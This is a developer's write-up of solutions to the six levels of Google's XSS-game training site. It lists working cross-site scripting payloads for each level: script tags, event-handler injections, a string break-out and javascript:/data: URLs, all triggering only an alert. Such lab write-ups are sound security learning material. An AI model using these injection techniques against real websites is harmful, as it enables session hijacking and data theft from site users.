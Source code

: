 # XSS-Game lab
Roger Ramirez Espejo.
Software developer, architect and enthusiast.

## Table of contents
- [XSS-Game lab](#xss-game-lab)
  * [Table of contents](#table-of-contents)
  * [Introduction](#introduction)
  * [Level 1.](#level-1)
  * [Level 2.](#level-2)
  * [Level 3](#level-3)
  * [Level 4](#level-4)
  * [Level 5](#level-5)
  * [Level 6](#level-6)
  * [Game completed](#Game-completed)
  

## Introduction
This document contains my solutions to the levels of the XSS game https://xss-game.appspot.com 

##  Level 1.
The field was vulnerable to `script` tag:
```
<script>alert("roger")</script>
```
![Level 1](evidences/level-1-completed.png)

## Level 2.
`Script` tag can't be used anymore reason why I created a comment with a link, injecting the `alert` in the `onclick` event:
```
<a href="url" onclick="alert('roger')">link text</a>
```
![Level 1](evidences/level-2-completed.png)

## Level 3
Every time I clicked in a tab the following error appeared:
```
Uncaught TypeError: urlbar is null
    updateURLBar https://xss-game.appspot.com/static/game.js:45
    <anonymous> https://xss-game.appspot.com/static/game.js:40
```

The game's hint suggested the usage of `window.location` reason why I injected the alert into the `onerror` event:

```
https://xss-game.appspot.com/level3/frame#3' onerror="alert('roger')"
```
![Level 3](evidences/level-3-completed.png)

## Level 4
This was really tricky, the timer is being injected in the line 21 of the file `timer.html`:

```
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

Then what I did is to inject two lines of code, first line injecting the number `33` and then `;` with the `alert` completing the next part of the second line as follows:

```
33');alert('roger
```
![Level 4](evidences/level-4-completed.png)

## Level 5
The only way to solve this is to manage to pass javascript to the `next` parameter. Since I didn't know how to do that thanks to this [Reference](https://security.stackexchange.com/questions/222290/url-parameter-manipulation-and-injection) I could send the value `javascript:alert("roger")` I sent the value encoded but probably was not needed:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert%28%27roger%27%29
```
![Level 5](evidences/level-5-completed.png)

## Level 6
Thanks to the [URI data scheme](https://en.wikipedia.org/wiki/Data_URI_scheme) I could send the javascript alert by using the data scheme `data:javascript,alert('roger')`, as follows:
```
https://xss-game.appspot.com/level6/frame#data:javascript,alert('roger')
```
![Level 6](evidences/level-6-completed.png)

## Game completed
![Game completed](evidences/game-completed.png)